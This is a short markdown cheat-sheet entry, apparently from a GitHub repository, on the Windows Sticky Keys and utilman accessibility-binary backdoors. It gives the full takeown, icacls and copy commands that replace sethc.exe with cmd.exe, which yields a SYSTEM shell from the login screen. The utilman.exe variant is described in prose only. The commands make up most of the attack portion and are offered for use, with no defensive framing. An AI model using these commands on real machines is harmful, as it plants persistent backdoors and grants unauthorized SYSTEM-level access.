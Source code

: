 ### Sticky Keys
- When we press shift 5 times, the program located at `C:\Windows\System32\sethc.exe` is executed.
- We can chage this binary to `cmd.exe`, we can get a SYSTEM level shell even from the login screen.
- We need to have proper permission to change this binary
```powershell
# Take ownership of the binary
takeown /f C:\Windows\System32\sethc.exe
# Give Administrator full permission to the binary
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
# copy the binary
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```
- Now we can get SYSTEM shell if we press shift 5 times anywhere.

### utilman
- Simiar to `C:\Windows\System32\sethc.exe` , when we click on `easeofaccess` button on login screen, `C:\Windows\System32\utilman.exe` is executed.
- We can change this binary after taking ownership of this binary.